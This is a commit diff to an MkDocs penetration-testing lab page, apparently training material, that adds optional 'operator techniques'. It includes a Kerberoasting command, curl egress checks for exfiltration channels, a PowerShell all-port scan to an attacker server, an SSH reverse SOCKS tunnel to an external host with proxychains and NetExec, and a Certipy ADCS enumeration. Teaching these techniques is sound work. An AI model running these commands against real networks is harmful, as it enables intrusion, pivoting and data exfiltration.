

Before and after one commit to ridgebackinfosec/OTO-labs, an MkDocs documentation site: the page built from docs/labs/pivot-escalate/index.md, in a window 1280 px wide and 1400 px high, scrolled down 10492 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; comment, search, counter and statistics services are not loaded; before the commit the page ends 11122 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Added option operator techniques

````diff
--- a/docs/labs/pivot-escalate/index.md
+++ b/docs/labs/pivot-escalate/index.md
@@ -229,6 +229,10 @@
     - `-request`: Actually request the TGS tickets (not just enumerate)
     - `-outputfile`: Save hashes in hashcat-compatible format
     - What's happening: We request Kerberos service tickets. The DC encrypts these with the service account's password hash. We can crack these offline without triggering lockouts.
+    - **Alternative with Kerberos auth**: Use `-k -no-pass` if you have a valid Kerberos ticket (ccache file):
+      ```bash
+      GetUserSPNs.py -k -no-pass -dc-ip 192.168.56.11 'north.sevenkingdoms.local/robb.stark'
+      ```
 
 You should see output listing the discovered SPNs and accounts.
 
@@ -386,6 +390,112 @@
 
 ---
 
+## Optional: Other Operator Techniques
+
+???+ info "Optional"
+    This section covers additional techniques for students who want to explore further. These are not required for the core lab but represent real-world attack patterns.
+
+### Operator Pre-Checks
+
+Before pivoting externally or establishing C2, smart operators check what egress is allowed. From a compromised host, test:
+
+| Check | Why It Matters |
+|-------|----------------|
+| **Pastebin access** | Data exfiltration potential |
+| **Google login** | OAuth abuse, token theft |
+| **GitHub access** | Tool staging, PowerShell download cradles |
+| **External HTTP server** | File transfer via `python -m http.server` |
+
+```bash
+# Quick connectivity checks from compromised host
+curl -s https://pastebin.com > /dev/null && echo "Pastebin: OK" || echo "Pastebin: BLOCKED"
+curl -s https://github.com > /dev/null && echo "GitHub: OK" || echo "GitHub: BLOCKED"
+curl -s https://raw.githubusercontent.com > /dev/null && echo "GitHub Raw: OK" || echo "GitHub Raw: BLOCKED"
+```
+
+???+ tip "Why This Matters"
+    Content filtering and egress controls vary widely. Knowing what's allowed helps you choose appropriate exfil channels, tool staging methods, and C2 protocols.
+
+#### Egress Port Scanning (PowerShell)
+
+For a more comprehensive egress check, scan all TCP ports from a Windows host to an external server you control. The external server should be configured to respond as open on all ports (e.g., using `socat` or a similar listener).
+
+```powershell
+1..65535 | % {$test=new-object system.Net.Sockets.TcpClient; $wait = $test.beginConnect("YOUR_EGRESS_TEST_SERVER",$_,$null,$null); ($wait.asyncwaithandle.waitone(250,$false)); if($test.Connected){echo "$_ open"}else{echo "$_ closed"}} | select-string " " | Out-File -Encoding ascii tcp-port-status.txt
+get-content .\tcp-port-status.txt | select-string "open" | measure-object -Line
+```
+
+???- note "Command Options/Arguments Explained"
+    - `1..65535`: Iterate through all TCP ports
+    - `TcpClient.beginConnect`: Asynchronous connection attempt to each port
+    - `waitone(250,$false)`: 250ms timeout per port
+    - `YOUR_EGRESS_TEST_SERVER`: Replace with your external server configured to accept all ports
+    - Output: Creates `tcp-port-status.txt` with open/closed status, then counts open ports
+    - **Setup required**: Your external server must respond on all ports for accurate results (e.g., `socat` listening on all ports)
+
+???+ warning "Time Warning"
+    This scan takes a while to complete (65,535 ports at 250ms each = ~4.5 hours worst case). Consider scanning common egress ports first (80, 443, 8080, 8443) or running in the background.
+
+### SSH Reverse Tunnel for Proxychains
+
+When you need to route attack tools through a compromised host to reach internal networks, SSH reverse tunneling creates a SOCKS proxy:
+
+```bash
+ssh -i ~/.ssh/pivot -R 9050 root@YOUR_EXTERNAL_IP
+```
+
+???- note "Command Options/Arguments Explained"
+    - `-i ~/.ssh/pivot`: SSH private key for authentication
+    - `-R 9050`: Create a reverse SOCKS proxy on port 9050 on the remote server
+    - `root@YOUR_EXTERNAL_IP`: Your external attack infrastructure
+    - What happens: Traffic sent to port 9050 on your external server gets tunneled through the SSH connection and exits from the compromised host
+
+**Configure proxychains** to use the tunnel:
+
+```bash
+# Edit /etc/proxychains.conf
+# Add at the bottom:
+socks5 127.0.0.1 9050
+```
+
+Then run tools through the tunnel:
+
+```bash
+proxychains nxc smb 10.10.10.0/24 -u user -p password
+```
+
+???+ tip "Real-World Use Case"
+    You've compromised a workstation that can reach internal servers your attack box can't. SSH tunnel lets you run Impacket, NetExec, etc. from your machine while the traffic exits from the compromised host.
+
+### Certipy - AD Certificate Services
+
+???+ info "Exploration Only"
+    ADCS attacks require the `essos.local` domain which isn't part of the core class VMs. This section is for students who want to explore on their own.
+
+Active Directory Certificate Services (ADCS) is frequently misconfigured, leading to privilege escalation paths known as ESC1-ESC8.
+
+**Sample enumeration command**:
+
+```bash
+certipy find -u khal.drogo@essos.local -p 'horse' -dc-ip 192.168.56.12
+```
+
+???- note "Command Options/Arguments Explained"
+    - `certipy find`: Enumerate certificate templates and CA configurations
+    - `-u khal.drogo@essos.local`: Domain credentials for authentication
+    - `-dc-ip 192.168.56.12`: Domain controller for the essos.local domain
+    - Output: JSON/text report identifying vulnerable certificate templates
+
+**Common ADCS escalation paths**:
+
+- **ESC1**: Misconfigured certificate templates allowing arbitrary SANs
+- **ESC4**: Vulnerable template ACLs allowing modification
+- **ESC8**: NTLM relay to AD CS HTTP endpoints
+
+For more information, see the [Certipy documentation](https://github.com/ly4k/Certipy).
+
+---
+
 ## Lab Cleanup
 
 No specific cleanup is required beyond stopping running tools.
````
